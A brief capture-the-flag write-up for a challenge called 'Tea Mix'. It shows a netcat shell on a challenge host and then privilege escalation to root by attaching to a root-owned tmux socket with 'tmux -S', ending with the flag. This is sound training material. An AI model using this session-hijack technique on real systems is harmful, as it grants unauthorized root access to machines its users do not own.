# Tea Mix

We got this netcat connection `nc challenge.ctf.games 30523`.
```bash
user@kali:~/Documents/BesidesbosCTF/Misc/Tea_Mix$ nc challenge.ctf.games 30523
bash-4.4$ ls
ls
bash-4.4$ id    
id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
bash-4.4$ ls /tmp
ls /tmp
tmux-0
bash-4.4$ ls /tmp/tmux-0
ls /tmp/tmux-0
tea_mix
```
A little bit of `man tmux` teach us to use the switch `-S` to connect to the tmux shell that we want.
```bash
bash-4.4$ export SHELL=xterm
export SHELL=xterm
bash-4.4$ tmux -S /tmp/tmux-0/tea_mix
```
And we get a root shell :
```bash
tea-mix-be15e8e48566f2ad-789b7bc987-rwfhl:/home/challenge# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
tea-mix-be15e8e48566f2ad-789b7bc987-rwfhl:/home/challenge# ls /root
ls /root
flag.txt
tea-mix-be15e8e48566f2ad-789b7bc987-rwfhl:/home/challenge# cat /root/flag.txt
cat /root/flag.txt
flag{oooohhhh_tea_mix_sounds_like_tmux_i_get_it}
```

And the flag `flag{oooohhhh_tea_mix_sounds_like_tmux_i_get_it}`.
